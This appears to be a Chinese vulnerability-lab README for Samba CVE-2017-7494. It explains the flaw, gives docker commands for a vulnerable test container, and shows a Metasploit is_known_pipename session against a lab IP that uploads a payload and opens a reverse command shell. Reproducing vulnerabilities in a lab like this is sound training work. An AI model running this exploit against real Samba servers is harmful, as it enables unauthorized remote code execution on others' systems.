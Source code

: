 Samba远程代码执行漏洞(CVE-2017-7494)
---

### 漏洞信息

2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。

* [Remote code execution from a writable share.](https://www.samba.org/samba/security/CVE-2017-7494.html)

### 镜像信息

类型 | 值
:-:|:-:|:-:
samba 端口 | 445

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_samba_1
 ```

2. 启动环境

 ```
$ docker run -d -p 445:445 -p 139:139 -p 138:138 -p 137:137 medicean/vulapps:s_samba_1
 ```
 > `-p 445:445` 前面的 445 代表物理机的端口
 >

### 利用步骤

假定目标 IP 是： 192.168.35.197

```
msf > use exploit/linux/samba/is_known_pipename
msf exploit(is_known_pipename) > set RHOST 192.168.35.197
RHOST => 192.168.35.197
msf exploit(is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST           192.168.35.197   yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_BASE                   no        The remote filesystem path correlating with the SMB share name
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   2   Linux x86_64


msf exploit(is_known_pipename) > run

[*] Started reverse TCP handler on 192.168.35.197:4444
[*] 192.168.35.197:445 - Using location \\192.168.35.197\share\ for the path
[*] 192.168.35.197:445 - Payload is stored in //192.168.35.197/share/ as dDUJiiuf.so
[*] 192.168.35.197:445 - Trying location /volume1/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /tmp/dDUJiiuf.so...
[*] Command shell session 1 opened (192.168.35.197:4444 -> 192.168.35.197:58089) at 2017-05-25 13:26:19 +0800

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)

```

### 推荐阅读

* [First crack at Samba CVE-2017-7494 #8450](https://github.com/rapid7/metasploit-framework/pull/8450)
* [Samba远程代码执行漏洞(CVE-2017-7494)分析](http://blogs.360.cn/blog/samba%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9Ecve-2017-7494%E5%88%86%E6%9E%90/)